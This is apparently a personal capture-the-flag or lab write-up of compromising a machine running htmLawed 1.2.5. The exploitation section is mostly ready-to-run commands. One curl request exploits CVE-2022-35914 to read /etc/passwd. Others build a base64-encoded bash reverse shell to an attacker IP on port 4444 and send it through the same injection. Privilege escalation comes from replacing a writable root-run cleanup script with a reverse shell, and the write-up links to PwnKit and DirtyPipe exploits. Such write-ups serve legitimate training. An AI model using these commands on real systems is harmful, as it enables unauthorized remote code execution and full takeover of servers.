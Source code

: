 #Pwned! 
```IP
192.168.175.190
```
# Enumeration

## HTTP 80
Htmlawed 1.2.5

# Exploitation
https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/
```
curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://192.168.175.190/index.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
```
```
echo "/bin/bash -i >& /dev/tcp/192.168.45.237/4444 0>&1" |base64
```
```
curl -s -d 'sid=foo&hhook=exec&text=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMjM3LzQ0NDQgMD4mMQo=|base64 -d|bash' -b 'sid=foo' http://192.168.175.190/index.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
```
# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241128101408.png?raw=true)
with pspy64
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241128104452.png?raw=true)
we see that /var/www/cleanup.sh is executing
we have write permissions over this script so we substitute it for a reverse shell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241128110152.png?raw=true)
and we are root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241128110204.png?raw=true)
## Automated

### Peass

https://github.com/ly4k/PwnKit
failed
https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

### Mimikatz

# Lateral Movement

